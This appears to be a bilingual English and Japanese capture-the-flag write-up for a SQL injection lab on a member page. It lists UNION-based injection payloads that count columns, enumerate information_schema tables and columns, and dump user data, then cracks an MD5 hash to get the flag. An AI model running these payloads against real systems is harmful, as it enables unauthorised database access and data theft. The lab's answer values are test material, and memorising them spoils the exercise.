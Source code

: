 # SQL injection in member page
#SELECT TABLE_NAME FROM information_schema.tables


## check how many columns
```
1 OR 1=1 UNION SELECT NULL, NULL
```
This command is used to find out the number of columns necessary to perform a UNION with the original query. The condition 1 OR 1=1 always evaluates to true, thus selecting all records by default.
To match the column count, increment the number of NULLs until a match is found. In this case, it's determined that there are 2 columns.

オリジナルのクエリとUNIONするために必要なカラム数を見つけ出すコマンド。
1 OR 1=1は常に真となる条件を作り出し、結果としてすべてのレコードを選択する。
column数が一致するまでNULLを増やしていけばいいが、ここではcolumnが2つであることがわかる 


## get the table name of DB 
```
1 OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables
```
Obtains the names of all tables within the database. information_schema.tables is a special table that stores metadata about the database, including all table names.
Note: The first column = Table Name, the second column = NULL is used solely for matching purposes.

データベース内のすべてのテーブル名を取得する。
information_schema.tablesは、データベースのメタデータを格納する特別なテーブルで、すべてのテーブル名を含む
NB: 第一カラム = テーブル名 , 第二カラム = 一致させるためだけにNULLを使用


## get the column infomation of table
```
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
Retrieves the column names and their associated table names for a specific table (in this case, targeting the ```users``` table). information_schema.columns is a table that contains information about all columns within the database.
This allows identifying which columns can be utilized for an attack.

特定のテーブル（この場合は```users```テーブルがターゲット）のカラム名とそのテーブル名を取得。information_schema.columnsは、データベース内のすべてのカラムに関する情報を持つテーブル。
これにより、どのカラムが攻撃に利用できるかを特定可能


## get the data of users table
```
1 OR 1=1 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```
By using the CONCAT() function, multiple columns are merged into a single string, enabling the attacker to obtain information of interest in one go.
This query extracts specific data from the user table, providing valuable information to the attacker.

CONCAT()関数を使って、複数のカラムを一つの文字列として結合し、usersテーブルの情報を一度に取得できるようにする。
このクエリは、ユーザーテーブルから特定のデータを抜き出し、攻撃者にとって有益な情報を提供する。


![image](./member_user_sql.png)

``` 
ID: 1 OR 1=1 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users 
First name: 5
Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

So we try to decript ``` 5ff9d0165b4f92b14994e5c685cdce28  ``` with MD5
 https://www.dcode.fr/md5-hash
![decode_md5_01](./decode_md5_01.png)

https://md5decrypt.net/


then, do lower all char and encode ``` fortytwo``` with sha256


### flag = ```10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 ```
![encript_sha256](./flag_01.png)

# What is UNION Attack ? 
A UNION attack is a type of SQL Injection where an attacker combines the results of two different SQL queries into a single query result.
It can be used to illicitly extract information from a database. To conduct an attack, it's necessary to identify the correct number of queries.

UNION攻撃は、SQLインジェクションの一種で、攻撃者が異なるSQLクエリの結果を結合して一つのクエリ結果として返す方法。元のクエリの結果に追加の結果を結合させることにより行われます。元のクエリの結果に追加の結果を結合させることにより行われる。
### つまり、攻撃者は元々のクエリに自分が知りたい情報を取得するための別のクエリを追加し、その結果を盗み出すことができる。
データベースから不正に情報を抽出するために使うことができる。攻撃を行うためには、正しいクエリ数を特定することが必要。